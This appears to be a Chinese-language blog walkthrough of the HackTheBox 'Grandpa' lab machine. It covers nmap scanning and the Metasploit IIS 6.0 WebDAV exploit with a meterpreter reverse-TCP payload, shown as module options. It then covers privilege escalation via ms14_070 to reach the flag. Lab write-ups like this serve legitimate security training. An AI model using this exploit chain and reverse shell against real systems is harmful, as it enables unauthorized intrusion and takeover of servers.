 ```yaml
---
title: Hackthebox::Grandpa walkthrough
date: 2021/12/14
categories: 渗透测试
tags: [渗透测试,walkthrough]
temp_img: https://herozql.oss-cn-beijing.aliyuncs.com/bg_pic/bing_22.jpg
banner_img: https://herozql.oss-cn-beijing.aliyuncs.com/bg_pic/bing_22.jpg
---
```


- **Grandpa是hackthebox上一台难度为简单的windows靶机**

# 信息收集

- 首先使用nmap扫描一下端口情况

![image-20211227230552901](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211227230552901.png)

- 然后使用nmap扫描一下是否存在漏洞

![image-20211227230757330](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211227230757330.png)

- 通过两次nmap的扫描，我们得知靶机开放了80端口，并且存在漏洞
- 使用searchsploit扫描`Microsoft IIS httpd 6.0`服务，看看是否有可以被利用的漏洞

![image-20211227231051633](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211227231051633.png)

- 我们发现了许多可以使用的脚本，再次使用msf查看是否可以利用‘

![image-20211227231247078](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211227231247078.png)

- 我们发现了可以利用的部分，我们使用第二个

```shell
msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > show options

Module options (exploit/windows/iis/iis_webdav_scstoragepathfromurl):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   MAXPATHLENGTH  60               yes       End of physical path brute force
   MINPATHLENGTH  3                yes       Start of physical path brute force
   Proxies                         no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS         10.129.166.10    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          80               yes       The target port (TCP)
   SSL            false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI      /                yes       Path of IIS 6 web application
   VHOST                           no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     tun0             yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Microsoft Windows Server 2003 R2 SP2 x86
```

- 我们成功进入了，但是很可惜我们的权限不足

![image-20211227231707825](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211227231707825.png)

- 我们将迁移进程，并且寻找合适的漏洞利用脚本来入侵
- 迁移进程

![image-20211227231911796](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211227231911796.png)

# 漏洞利用

- 使用suggester查看可以利用漏洞的脚本

![image-20211227232427257](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211227232427257.png)

- 我们发现了以下可以使用的方式，我们选择`exploit/windows/local/ms14_070_tcpip_ioctl`

![image-20211227233022025](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211227233022025.png)

- 完成设置

![image-20211227233230168](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211227233230168.png)

- 好的，我们成功了，获得了最高权限

![image-20211227233425946](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211227233425946.png)

- 查看flag

![image-20211227233646152](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211227233646152.png)